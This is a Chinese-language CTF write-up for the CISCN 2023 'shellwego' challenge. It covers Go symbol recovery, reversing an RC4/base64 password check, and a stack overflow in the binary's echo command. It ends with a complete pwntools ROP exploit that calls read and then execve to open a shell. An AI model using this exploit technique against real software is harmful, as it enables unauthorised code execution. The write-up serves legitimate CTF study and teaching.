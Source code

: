 # ciscn2023 shellwego writeup

这题是go语言程序 感觉逆向的占比大于pwn...
## 0x1 checksec 查看安全保护

![img](checksec.png)  
没开PIE， 而且可以发现程序是静态链接的

## 0x2 ida 分析
![img](0x2.png)

无符号表，难以分析，尝试利用

## 0x3 恢复符号表
### 0x3-1 查看程序go版本
两种方式： 
1. Shift+F12打开字符串窗口，搜索`go` 可以看到版本信息
2. 在命令行执行 `strings shellwego | grep "go"`

可以看到版本为go1.20.4
![img](0x3-1.png)

### 0x3-2 尝试利用IDA signature库进行比对恢复
> IDA 可以根据选定signature库中的函数签名特征与当前程序各函数进行匹配  从而恢复函数名
1. Shift+F5打开Signatures窗口
2. 右键点击 `Apply new signature...`
3. 点击 `Search` 搜索 `go`
4. 发现只有一个 `go_std` 仅可用于 `go1.10-1.16`， 不可行
![img](0x3-2.png)

### 0x3-3 搜索 `ida go1.20 signature`
发现工具 [GoReSym](https://www.google.com.hk/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjk55Gv_qD_AhWgcGwGHSR4BicQFnoECBQQAQ&url=https%3A%2F%2Fgithub.com%2Fmandiant%2FGoReSym&usg=AOvVaw1kELKyeJ37LXczOk3Yd8pk) （也可以试试其他符号恢复方法）

使用：
1. 下载程序 [Release](https://github.com/mandiant/GoReSym/releases/)
2. 执行并生成结果json文件  `GoReSym.exe -t -d -p /path/to/shellwego > output.json`
3. 下载IDA脚本文件 [goresym_rename.py](https://github.com/mandiant/GoReSym/blob/master/IDAPython/goresym_rename.py)
4. IDA 点击 File -> Script File 选择 `goresym_rename.py` 再选择刚才输出的 `output.json` IDA就能自动恢复函数名了

![img](0x3-3.png)

前后对比可以看到恢复效果非常理想

![img](0x3-32.png)

## 0x4 程序分析
### 0x4-1 进入main_main函数，可以看到程序先输出 `ciscnshell$`，再获取输入，然后调用函数 `main_unk_func0b05`
![img](0x4-1.png)

### 0x4-2 进入`main_unk_func0b05`函数
- 发现很多cmp和类似字符串16进制的dword
点击16进制数再按R键，显示字符串  但由于数据是以dword解释的，所以字符串颠倒  
- 尝试执行程序发现输出`Cert Is A Must` 所以先来看cert命令  按照程序流程可见应该还要输入 `nAcDsMic`+`N` 也就是 `nAcDsMicN`  
- 但是如果只输入 `cert nAcDsMicN` 会出现提示 `Missing parameter`， 明显是要三个参数  
- 再看函数流图发现之后去到函数`main_unk_func0b01`
![img](0x4-2.png)

### 0x4-3 进入`main_unk_func0b01`函数
同样方法转换字符串，可以发现大致流程：
1. key="F1nallB1B1rd3K3y"
2. rc4 加密
3. base64 加密
4. 与字符串"JLIX8pbSvYZu/WaG"比较，若相同则认证成功
![img](0x4-3.png)

### 0x4-4 cert me in
很明了了，先base64解密成byte数组， 再用已知key通过rc4解密  最后得到 `S33UAga1n@#!`  
执行程序输入 `cert nAcDsMicN S33UAga1n@#!`， 成功通过验证

### 0x4-5 回到`main_unk_func0b05`函数
尝试执行函数中提到的不同命令，可以`cat flag`但是是假的flag
发现仅echo命令存在可能漏洞（main_unk_func0b04中）

### 0x4-6 进入`main_unk_func0b04`函数
![img](0x4-4.png)
结合动态调试发现：
1. echo后面的单个连续单词长度不能超过0x200
2. 单词会去掉空格拼接起来复制到栈上， 存在栈溢出漏洞
3. 遇到`+`不复制

## 0x5 exploit
直接栈溢出到ret_addr会出现Segmentation Fault，调试分析问题出现在指令`movzx edx, byte ptr [rbx+rax]`  
![img](0x4-5.png)

原因rbx从栈上取了一个地址值，而我们改写了栈使其不再是有效地址值，所以解析的时候会报段错误
绕开方式： 刚好遇到 `+` 不会复制，也就保留原来的值

```python
from pwn import *
context.log_level='debug'

filename = './shellwego'
proc = process(filename)
belf = ELF(filename)

gscript = '''
    b * 0x0000000004C1882
    c
'''
# gdb.attach(proc, gdbscript=gscript)

# gadget 查看pop_ret对，用于构造pop链
poprdi_ret = 0x444fec
poprsi_ret = 0x41e818
poprdx_ret = 0x49e11d
poprax_ret = 0x40d9e6
syscall = 0x40328c

proc.sendlineafter(b'ciscnshell$ ', b'cert nAcDsMicN S33UAga1n@#!')

#每个单词长度不超过0x200
#payload具体溢出长度可通过动态调试观察得到
payload = b'echo '+b'h'*0x100+b' '+b'h'*0x103

# 避开影响地址
payload += b'+' * 8

# 调用syscall 0 即read 到0x59FE70 上
# 具体syscall调用规则查看：https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
payload += p64(0xdeadbeefdeadbeef) * 3
payload += p64(poprdi_ret) + p64(0)
payload += p64(poprax_ret) + p64(0)
payload += p64(poprsi_ret) + p64(0x59FE70)
payload += p64(poprdx_ret) + p64(20)
payload += p64(syscall)

#syscall 59 即execve
payload += p64(poprax_ret) + p64(59)
payload += p64(poprdi_ret) + p64(0x59FE70)
payload += p64(poprsi_ret) + p64(0)
payload += p64(poprdx_ret) + p64(0)
payload += p64(syscall)

proc.sendlineafter(b'# ', payload)
proc.send(b"/bin/sh\x00")
proc.interactive()
pause()

```
